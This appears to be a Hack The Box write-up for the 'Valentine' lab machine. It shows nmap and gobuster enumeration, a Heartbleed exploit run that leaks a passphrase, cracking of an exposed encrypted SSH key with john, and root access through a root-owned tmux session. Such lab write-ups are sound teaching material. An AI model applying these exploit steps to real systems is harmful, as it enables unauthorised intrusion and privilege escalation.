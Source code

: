 ```yaml
---
title: 'Valentine Writeup'
date: 2018-07-27
thumbnailImagePosition: left
thumbnailImage: /img/posts/2018/07/valentine-writeup/valentine-banner.jpg
coverImage: /img/posts/2018/07/valentine-writeup/valentine-banner.jpg
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Hackthebox
- CTF
- Writeup
tags:
- hackthebox
- htb
- pentest
- ctf
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "Heartbleeds and dirty cows, i feel sorry for the creator!"
---
```

Connecting to Hack the Box[^1] using the supplied VPN, my Valentine box have the IP: 10.10.10.79
As per usual, lets start with Recon and NMAP the target IP
```
root@kali:~/Valentine$ nmap -p- --version-all -sV -sS 10.10.10.79
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-02 22:27 CET
Nmap scan report for 10.10.10.79
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT      STATE  SERVICE   VERSION
22/tcp    open   ssh       OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp    open   http      Apache httpd 2.2.22 ((Ubuntu))
443/tcp   open   ssl/http  Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.78 seconds
```
So we are dealing with some kind of webserver.
The root directory of the address is only displaying an image on both webports (80/443), next step would be trying to enumerate directories!
![Valentine root image](/img/posts/2018/07/valentine-writeup/omg-1.jpg)
I usually use the tool "gobuster" to enumerate webdirectories with a wordlist, and point it to Burpsuite Proxy. That way, any link or directory that gobuster finds, will Burpsuite automatically spider as well as record in its console.
so lets point gobuster towards the webserver and let it run in the background
```
root@kali:~/Valentine$ gobuster -u http://10.10.10.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -p 127.0.0.1:8080 -x php
```
Now sticking with the theme Valentine, the image is referencing the exploit Heartbleed[^2] which targets SSL (port 443). its also available on ExploitDB, therefor theres a local variant in kali. You might though have to run this a couple times to get the data thats relevant.
```
root@kali:~/Valentine$ searchsploit heartbleed
root@kali:~/Valentine$ cp /usr/share/exploitdb/exploits/multiple/remote/32764.py .
root@kali:~/Valentine$ python 32764.py 10.10.10.79 > heartbleed.txt
root@kali:~/Valentine$ cat heartbleed.txt
[..snip..]
00f0: 01 00 00 00 10 00 0E 00 00 0B 31 30 2E 31 30 2E ..........10.10.
0100: 31 30 2E 37 39 6F 6E 2F 78 2D 77 77 77 2D 66 6F 10.79on/x-www-fo
0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 rm-urlencoded..C
0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34 ontent-Length: 4
0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63 2....$text=aGVhc
0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64 nRibGVlZGJlbGlld
0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 43 mV0aGVoeXBlCg==C
0160: 05 16 1F AC BA A4 D1 E0 45 10 F2 B0 B6 9E 4B 30 ........E.....K0
0170: 01 06 7D 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C ..}.............
0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
[..snip..]
```
Now that $text parameter in the response looks like a base64 encoded string.
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
root@kali:~/Valentine$ echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
heartbleedbelievethehype
```
Lets save that to the notes and pop back to see what the result of gobuster is up to.
```
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.79/
[+] Threads      : 200
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 302,307,200,204,301
[+] Proxy        : 127.0.0.1:8080
[+] Extensions   : .php
=====================================================
/index (Status: 200)
/index.php (Status: 200)
/dev (Status: 301)
/encode (Status: 200)
/encode.php (Status: 200)
/decode (Status: 200)
/decode.php (Status: 200)
/omg (Status: 200)
=====================================================
```
So encode and decode just seems to be two php functions that does what they say to base64 strings. They didn't seems that vulnerable to command injections either. But /dev looks interesting , browsing to that reveals two files.
![Valentine_Slash_dev](/img/posts/2018/07/valentine-writeup/Valentine_Slash_dev.png)
Taking a peek at notes.txt shows a checklist.
```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```
The file hype_key contains an ASCII encoded SSH Private Key, so download that and pipe it to xxd.
```
root@kali:~/Valentine$ cat hype_key | xxd -r -p > rsa.encrypted
root@kali:~/Valentine$ cat rsa.encrypted
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
[..super snip..]
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```
According to Proc-Type its encrypted, so next step would be to decrypt it using JohnTheRipper!
First lets create a JTR compatible file to crack, then remembering the decoded base64 string before, might be the password.
```
root@kali:~/Valentine$ ssh2john rsa.encrypted > rsa.john
root@kali:~/Valentine$ echo "heartbleedbelievethehype" | john --stdin rsa.johnssh
```
That should successfully crack the Private Key!
Now we only need to change the permissions and try to connect, what we're missing is the username to connect with, but reading the private keys filename "hype_key", we can always try "hype".
```
root@kali:~/Valentine$ chmod 0600 rsa.encrypted
root@kali:~/Valentine$ ssh -i rsa.encrypted hype@10.10.10.79
Enter passphrase for key 'rsa.encrypted': heartbleedbelievethehype
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$
```
So that takes care of the initial shell, now lets enumerate the system and see what we can find out to Privilege Escalate to root!
G0tmi1k[^3] Has a really good cheat sheets in how to enumerate linux systems!
So lets do some basic things.
```
hype@Valentine:~$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```
So having a kernel means that it might be vulnerable to the Dirtycow[^4] exploit.
But generally using such exploit is frowned upon since it might crash the box and ruin the day for other people.
So lets continue enumerating and hope we find something else.
```
hype@Valentine:~$ history
.....snip....
8 ls -la
9 tmux -L dev_sess
10 tmux a -t dev_sess
11 tmux --help
12 tmux -S /.devs/dev_sess
13 exit
.....snip....
```
Now running history shows that theres a tmux session (item 12) hype connected to, and running "ps -aux" to check all running processes also shows that the tmux session is running as root.
Lets connect to the same session.
```
hype@Valentine:~$ !12
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
```
Done!

[^1]: [www.hackthebox.eu](www.hackthebox.eu)
[^2]: [www.heartbleed.com](http://heartbleed.com/)
[^3]: [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^4]: [www.dirtycow.ninja](https://dirtycow.ninja)
